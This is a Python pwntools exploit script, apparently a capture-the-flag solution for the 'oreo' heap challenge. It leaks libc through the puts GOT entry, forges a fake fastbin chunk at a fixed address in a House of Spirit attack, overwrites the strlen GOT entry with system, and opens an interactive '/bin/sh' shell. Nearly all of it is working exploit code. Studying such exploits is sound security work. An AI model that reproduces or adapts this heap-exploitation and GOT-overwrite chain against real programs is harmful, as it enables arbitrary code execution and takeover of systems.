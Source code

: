 ```python
def order():
    p.sendline('3')


def message(notice):
    p.sendline('4')
    #p.recvuntil("Enter any notice you'd like to submit with your order: ")
    p.sendline(notice)


def exp():
    print 'step 1. leak libc base'
    name = 27 * 'a' + p32(oreo.got['puts'])
    add(25 * 'a', name)
    show_rifle()
    p.recvuntil('===================================\n')
    p.recvuntil('Description: ')
    puts_addr = u32(p.recvuntil('\n', drop=True)[:4])
    log.success('puts addr: ' + hex(puts_addr))
    libc_base = puts_addr - libc.symbols['puts']
    system_addr = libc_base + libc.symbols['system']
    binsh_addr = libc_base + next(libc.search('/bin/sh'))

    print 'step 2. free fake chunk at 0x0804A2A8'

    # now, oifle_cnt=1, we need set it = 0x40
    oifle = 1
    while oifle < 0x3f:
        # set next link=NULL
        add(25 * 'a', 'a' * 27 + p32(0))
        oifle += 1
    payload = 'a' * 27 + p32(0x0804a2a8)
    # set next link=0x0804A2A8, try to free a fake chunk
    add(25 * 'a', payload)
    # before free, we need to bypass some check
    # fake chunk's size is 0x40
    # 0x20 *'a' for padding the last fake chunk
    # 0x40 for fake chunk's next chunk's prev_size
    # 0x100 for fake chunk's next chunk's size
    # set fake iofle' next to be NULL
    payload = 0x20 * '\x00' + p32(0x40) + p32(0x100)
    payload = payload.ljust(52, 'b')
    payload += p32(0)
    payload = payload.ljust(128, 'c')
    message(payload)
    # fastbin 0x40: 0x0804A2A0->some where heap->NULL
    order()
    p.recvuntil('Okay order submitted!\n')

    print 'step 3. get shell'
    # modify free@got to system addr
    payload = p32(oreo.got['strlen']).ljust(20, 'a')
    add(payload, 'b' * 20)
    log.success('system addr: ' + hex(system_addr))
    #gdb.attach(p)
    message(p32(system_addr) + ';/bin/sh\x00')

    p.interactive()


if __name__ == "__main__":
    exp()

```